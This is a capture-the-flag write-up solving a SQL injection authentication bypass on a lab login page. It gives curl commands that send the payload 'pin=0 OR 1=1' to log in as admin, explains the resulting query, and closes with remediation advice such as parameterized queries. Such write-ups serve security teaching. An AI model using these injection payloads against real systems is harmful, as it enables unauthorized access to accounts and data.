 # SQL Injection Authentication Bypass - Final Solution

## Challenge Description
A login page vulnerable to SQL injection, requiring authentication as admin to reveal the flag. The application uses SQLite database with username and PIN authentication.

## Vulnerability Analysis
**Type**: SQL Injection via PIN parameter  
**Location**: `pin` parameter in login form  
**Root Cause**:
- Unsanitized numeric input in SQL query
- Lack of parameterized queries
- PIN validation only checks first character is numeric

## Successful Exploitation

### Exploit Steps
1. **Perform the injection**:
   ```bash
   curl -X POST -d "user-alias=admin&pin=0 OR 1=1" \
     http://challenge.localhost/login-page -c cookies.txt
   ```

2. **Access admin page**:
   ```bash
   curl -b cookies.txt http://challenge.localhost/login-page
   ```

### Single Command Version:
```bash
curl -X POST -d "user-alias=admin&pin=0 OR 1=1" \
  http://challenge.localhost/login-page -b "" -c cookies.txt -L | grep "flag{"
```

## Technical Explanation

1. **Payload Analysis**:
   - `user-alias=admin`: Provides correct username
   - `pin=0 OR 1=1`: Bypasses PIN check
   - Resulting query:
     ```sql
     SELECT * FROM users WHERE username = 'admin' AND pin = 0 OR 1=1
     ```

2. **Why It Works**:
   - `OR 1=1` makes the condition always true
   - Bypasses PIN verification while keeping correct username
   - Returns the admin record without knowing the PIN

3. **Session Handling**:
   - First request sets valid admin session cookie
   - Second request uses cookie to access protected content

## Impact
- Full authentication bypass
- Access to admin privileges
- Disclosure of sensitive data (flag)

## Remediation
1. **Use Parameterized Queries**:
   ```python
   db.execute("SELECT...WHERE username=? AND pin=?", (username, pin))
   ```

2. **Input Validation**:
   - Enforce numeric-only PINs
   - Implement length checks

3. **Additional Protections**:
   - Rate limiting
   - WAF rules
   - Secure session management

## Lesson Learned
Never trust user input in SQL queries, even for numeric fields. Always use parameterized queries and proper input validation.
